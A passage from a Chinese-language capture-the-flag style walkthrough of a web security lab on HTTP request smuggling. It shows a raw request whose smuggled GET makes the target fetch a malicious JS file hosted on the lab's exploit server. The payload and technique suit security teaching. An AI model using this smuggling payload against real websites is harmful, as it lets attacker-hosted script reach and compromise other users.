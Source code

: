 [![](assets/1705287960-e4894be1f48b829fc9c14914abc1e531.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103439-f7f82980-b029-1.png)  
Step 4：随后我们使用靶场提供的恶意服务器主机托管一个恶意 JS 文件  
[![](assets/1705287960-7a9af3c3b33237cca6dc61956d2918cf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103451-ff1f12aa-b029-1.png)  
Step 5：随后修改之前的请求数据包去请求恶意服务器上的 resouces 文件

```plain
POST / HTTP/2
Host: 0aed00cf039321e185db1c3f00a80002.web-security-academy.net
Cookie: session=LPq3scqI6nFu4qD2LbowPurZhkiVCXtY
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-0ac2009903692136853e1b6701c3001b.exploit-server.net
Content-Length: 6

x=1
```

[![](assets/1705287960-db48530aebc72f676054fe5346ec4bb6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103510-0aa74f2a-b02a-1.png)  
随后我们可以在恶意服务器端的日志中看到有来自目标靶机的请求记录：
